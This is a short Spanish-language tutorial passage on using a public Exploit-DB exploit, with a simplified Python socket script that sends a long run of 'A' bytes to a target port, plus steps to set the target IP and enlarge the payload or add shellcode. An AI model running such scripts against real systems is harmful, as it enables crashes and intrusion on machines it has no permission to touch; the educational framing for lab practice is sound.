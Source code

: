 ✅ Desde Exploit-DB:

- Descargas el .py o copias el código.

✅ Ejemplo muy simplificado del contenido:

```python
import socket

ip = "192.168.1.10"
port = 9999
payload = b"A" * 1000

s = socket.socket()
s.connect((ip, port))
s.send(payload)
s.close()
```

---

✅ Es un **boilerplate**: envía 1000 'A' → causa crash o ejecución de código.

---

#### ✅ PASO 2️⃣ Entender el exploit

✅ Abre el archivo:

```bash
nano exploit.py
```

✅ Verás:

- ip
- puerto
- payload

✅ Es importante **leer** para saber qué hace:

> Enviar payload al puerto vulnerable.

---

#### ✅ PASO 3️⃣ Personalizar IP del objetivo

✅ Edita:

```python
ip = "192.168.1.10"
```

✅ Puedes ajustar el payload si quieres (más avanzado):

```python
payload = b"A" * 2000
```

o meter shellcode.

---